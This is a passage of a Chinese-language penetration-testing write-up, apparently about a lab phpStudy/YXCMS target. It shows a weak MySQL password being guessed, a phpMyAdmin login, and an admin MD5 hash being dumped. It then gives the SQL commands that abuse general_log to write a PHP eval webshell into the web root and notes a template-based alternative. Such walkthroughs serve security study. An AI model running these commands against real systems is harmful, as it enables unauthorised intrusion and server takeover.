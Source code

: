 在这个页面下面还有一个MySQL数据库连接检测，尝试弱密码。

试出来是`root@root`

#### phpMyAdmin利用

由于上面试出来了弱密码，因此下一步就很简单了，直接访问phpMyAdmin看看能不能登录。

直接root连了进去。

可以看到如下的数据库：

![image-20220409153945229](./image-20220409153945229.png)

其实只有一个是用户的数据库==>`newyxcms`，其余库都是MySQL的。

直接看一下这个cms的用户名和密码，`username=admin，password=168a73655bfecefdb15b14984dd2ad60`，尝试一下MD5爆破，付费记录，未果。

前面说了探针暴露了其网站的假设绝对路径，于是我们可以尝试使用MySQL写一个webshell：

![image-20220409154436315](./image-20220409154436315.png)

会发现一个问题就是我们没有权限写入。

那么可以考虑一下利用MySQL的日志来进行写Shell了。

![image-20220409154608606](./image-20220409154608606.png)

可以看到原来的一个日志是关闭的，并且路径指定到了MySQL的安装路径。

我们这里直接修改路径并且启用日志。

```sql
set global general_log = "ON"
set global general_log_file = "C:\\phpStudy\\WWW\\index000.php"
```

然后执行一下SQL即可：

```sql
select '<?php eval($_POST[evalexp]);?>'
```

接着访问该webshell：

![image-20220409155219863](./image-20220409155219863.png)

蚁剑连接，然后拿到一个模拟的shell：

![image-20220409155259142](./image-20220409155259142.png)

#### YXCMS

> 另一种getshell的方式

目录扫描可以扫到beifen.rar，打开后可以发现yxcms，访问可以看到公告栏：

![image-20220409160211595](./image-20220409160211595.png)

登录后可以创建模板文件，这也可以写shell，并且更加隐蔽。

